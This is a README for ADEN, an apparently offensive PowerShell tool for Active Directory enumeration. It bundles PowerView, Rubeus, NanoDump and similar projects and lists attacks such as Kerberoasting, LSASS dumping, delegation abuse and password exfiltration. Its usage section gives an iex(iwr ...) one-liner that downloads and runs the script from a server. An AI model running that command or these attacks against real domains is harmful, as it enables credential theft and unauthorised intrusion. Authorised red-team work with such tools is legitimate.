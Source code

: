 ## What is this?
ADEN is a local enumeration script for active directory environments, it is a carefully put together merge of several enumeration and exploitation projects:

- PowerView
- PowerMad
- ASREPRoast
- Get-GPPPassword
- PowerUpSQL
- New-GPOImmediateTask
- Invoke-Rubeus
- Invoke-NanoDump


It is to be used as an all-in-one enumeration script to use when you are in a domain user's session.\
\
Big credits to all the authors of the above mentioned tools! You are awesome.

## How to use?
If you are launching the script for the first time, the function ```Invoke-FullEnum``` is the recommended option as it will launch a full enumeration that will allow you to initially map the environment.\
\
From another domain user, the function ```Invoke-AdminEnum``` is recommended as it will launch only the relevant enumeration checks.
```powershell
iex(iwr -usebasicparsing http://[SERVER]/aden.ps1);Invoke-FullEnum
iex(iwr -usebasicparsing http://[SERVER]/aden.ps1);Invoke-AdminEnum
```
Keep in mind you also have access to all the functions of the above mentioned scripts. 

## What does it do?

ADEN currently supports the following attack scenarios:

- ASREPRoasting / Kerberoasting
- Unconstrained / Constrained / Resource Based Delegations
- LSASS Dumping
- Linked MSSQL Instances Abuse
- DACL Abuse
- Local Admin Access
- GPP / LAPS / LDAP Password exfiltration

It also enumerates the following, non-directly attack-correlated information:

- Current/Root Domain Info
- Current user memberships and privileges
- Kerberos and Password Policies
- Trust relationships
- Domain users, groups, computers, fileservers
